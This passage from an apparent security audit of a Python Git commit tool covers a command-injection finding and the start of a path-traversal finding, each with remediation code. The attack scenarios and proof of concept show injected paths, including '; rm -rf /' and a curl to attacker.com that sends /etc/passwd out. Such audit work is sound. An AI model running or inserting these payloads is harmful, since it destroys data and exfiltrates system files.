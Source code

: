 #### Attack Scenarios
1. **Malicious Repository Path**: Attacker provides path like `/tmp/repo; rm -rf /`
2. **Git Command Manipulation**: Crafted paths could alter Git command behavior
3. **Environment Variable Injection**: Malicious environment variables

#### Impact
- Arbitrary command execution on host system
- Data exfiltration and system compromise
- Privilege escalation if running with elevated permissions

#### Proof of Concept
```python
# Malicious input that could cause command injection
malicious_repo = "/tmp/test; curl attacker.com/steal?data=$(cat /etc/passwd)"
config = Config(repo_root=malicious_repo)
```

#### Remediation
```python
# SECURE IMPLEMENTATION
def _sanitize_repo_path(self, path: str) -> Path:
    """Sanitize and validate repository path."""
    clean_path = Path(path).resolve()
    
    # Validate path exists and is a Git repo
    if not clean_path.exists():
        raise GitError("Repository path does not exist")
    if not (clean_path / ".git").exists():
        raise GitError("Not a Git repository")
    
    # Check for suspicious path components
    path_str = str(clean_path)
    if any(char in path_str for char in [';', '|', '&', '$', '`']):
        raise GitError("Invalid characters in repository path")
    
    return clean_path
```

---

### V002: Path Traversal (CWE-22) 🔴 HIGH
**CVSS Score**: 8.1 (High)  
**Location**: `config.py:106-108`, `git_hook.py:203-238`

#### Description
File operations without proper path validation allow directory traversal attacks, enabling access to files outside the intended directory.

#### Vulnerable Code
```python
# VULNERABLE: config.py line 106
self.config_file = self.repo_root / ".commitgen.yml"  # No validation
self.env_file = self.repo_root / ".env"              # No validation
```
